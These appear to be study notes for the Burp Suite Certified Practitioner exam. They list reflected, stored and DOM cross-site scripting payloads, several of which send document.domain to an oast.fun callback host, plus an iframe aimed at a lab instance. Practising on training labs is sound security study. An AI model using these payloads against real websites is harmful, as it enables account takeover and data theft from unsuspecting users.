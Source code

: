 ___
[https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study)

[https://github.com/DingyShark/BurpSuiteCertifiedPractitioner](https://github.com/DingyShark/BurpSuiteCertifiedPractitioner)

[https://deephacking.tech/burp-suite-certified-practicioner-review-bscp/](https://deephacking.tech/burp-suite-certified-practicioner-review-bscp/)


```html
<script>location='http://tqppomndoggvfeiefwpdh4jb599h3e07m.oast.fun/?c='+document.domain;</script>
```


DOM Based XSS
```html
#"><img src="x" onerror="location='http://tqppomndoggvfeiefwpdh4jb599h3e07m.oast.fun/?c='+document.domain;">
```


```js
javascript:alert(1)
```

```html
<iframe src="https://0a190064039da4c7853828e6009e004c.web-security-academy.net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>
```

`
```js
"onfocus="alert(1)
```

```js
"onmouseover="location='http://tqppomndoggvfeiefwpdh4jb599h3e07m.oast.fun/?c='+document.domain;
```

```js
';alert(1)//
```


# Practitioner


```html
"></select><img src=1 onerror=document.location='http://tqppomndoggvfeiefwpdh4jb599h3e07m.oast.fun/?c='+document.domain;">
```




